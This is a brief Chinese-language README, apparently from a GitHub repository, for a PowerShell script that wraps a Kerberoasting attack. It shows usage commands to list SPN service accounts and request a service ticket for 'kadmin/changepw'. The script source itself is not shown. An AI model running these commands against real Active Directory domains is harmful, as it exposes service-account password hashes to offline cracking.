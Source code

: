 # Kerberos.ps1

该脚本是简单封装的Kerberostring利用脚本，即获取SPN服务账户和获取请求票据的操作

```
Import-Module .\kerberos.ps1
```

```
# 获取SPN服务账户
Frail-Spns
# 请求服务票据TGS
Inject-Ticket kadmin/changepw
```
![image-20210421212008760](https://github.com/CobaltZirs0n/Kerberosting/blob/main/kerberos/images/image-20210421212008760.png)




